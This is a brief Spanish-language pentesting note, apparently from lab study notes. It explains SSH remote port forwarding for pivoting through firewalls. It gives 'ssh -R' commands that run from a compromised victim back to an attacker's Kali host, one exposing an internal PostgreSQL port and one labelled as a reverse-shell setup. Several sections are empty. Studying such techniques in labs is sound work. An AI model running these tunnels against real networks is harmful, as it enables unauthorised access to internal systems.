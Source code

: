 
## DESCRIPTION

Esto es más desafiante en el mundo real porque, en la mayoría de los casos, es probable que los firewalls, tanto de hardware como de software, se interpongan en el camino. El tráfico entrante a menudo se controla mucho más agresivamente que el tráfico _saliente_ . Solo en casos excepcionales comprometeremos las credenciales de un usuario de NSSH, lo que nos permitirá conectar SSH directamente a una red y reenviar el puerto. Muy rara vez podremos acceder a los puertos que vinculamos a un perímetro de red.

Desde dentro se conectan a nuestra maquina

![[Pasted image 20230529193914.png]]
#### Mas información
* 


## EXPLOITATION

### OPTION 1: EN KALI

1. Arrancamos ssh

```
sudo systemctl start ssh
```


### DESDE LA VICTIMA (PUENTE)

En este caso, queremos escuchar en el puerto **2345** en nuestra máquina Kali ( **127.0.0.1:2345** ) y reenviar todo el tráfico al puerto PostgreSQL en PGDATABASE01 ( **10.4.50.215:5432** ).

```
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

### OPTION 2: POR EJEMPLO SI QUEREMOS ESTABLECERNOS UNA REVERSE SHELL

![[Pasted image 20230606182143.png]]

```
ssh -R 10.10.140.147:3213:192.168.45.228:9898 web_svc@192.168.250.147
```
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 